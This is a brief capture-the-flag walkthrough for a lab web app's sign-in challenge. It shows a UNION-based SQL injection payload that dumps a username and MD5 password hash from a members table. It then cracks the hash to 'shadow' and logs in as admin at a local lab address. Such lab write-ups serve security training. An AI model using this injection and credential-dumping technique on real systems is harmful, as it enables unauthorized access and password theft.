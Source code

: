 # signin

Using the same logic from the [members list](../../members/ressources/walktrough.md)
we can with an sql injection like `1 UNION SELECT username, password FROM Member_Brute_Force.db_default`
get this result
```
ID: 1 UNION SELECT username, password FROM Member_Brute_Force.db_default 
First name: admin
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
```
---
If we assume this is md5, it will be `shadow`. If we try to login at `http://192.168.56.102/?page=signin`
with the username `admin` and the password `shadow`, we got the flag.
